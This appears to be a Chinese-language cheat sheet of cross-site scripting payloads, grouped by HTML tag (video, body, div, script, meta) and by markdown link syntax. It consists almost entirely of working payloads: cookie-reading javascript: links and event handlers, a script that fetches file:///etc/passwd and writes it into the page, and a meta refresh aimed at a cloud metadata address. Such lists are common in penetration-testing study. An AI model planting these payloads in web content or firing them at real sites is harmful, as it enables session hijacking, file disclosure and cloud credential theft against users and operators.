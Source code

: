     <video onloadstart=alert(1) autoplay="autoplay" source src="https://www.runoob.com/try/demo_source/movie.mp4" type="video/mp4"></video>
    
### body标签

举例

    <body+onload=alert(document.cookie)>
    
### div标签

举例

    <div/onmouseover='alert(630)'>
    
### script标签

举例

    <script src="data:text/javascript,alert(630)"></script>
    <script>alert(630);</script>
    
    <script>x=new XMLHttpRequest;x.onload=function()
    {document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
    
### meta标签

举例

    <meta http-equiv="refresh" content="0;url=http://metadata.tencentyun.com/latest/meta-data" />
    # 表示页面将在0秒后自动跳转到 http://metadata.tencentyun.com/latest/meta-data 这个地址

    
## markdown的xss

markdown语言从文本-指定格式的转换过程可以看作一系列的html转换，最终以html标签的形式存储在页面上，因此markdown编辑器也可能出现XSS漏洞

### 利用过程

    [kevil](http://baidu.com) -> <a href="http://baidu.com"></a>
    
举例

    [a](javascript:prompt(document.cookie))
    [a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
    ![a](javascript:prompt(document.cookie))\
    <javascript:prompt(document.cookie)>
    ![a'"`onerror=prompt(document.cookie)](x)\
    [citelol]: (javascript:prompt(document.cookie))
    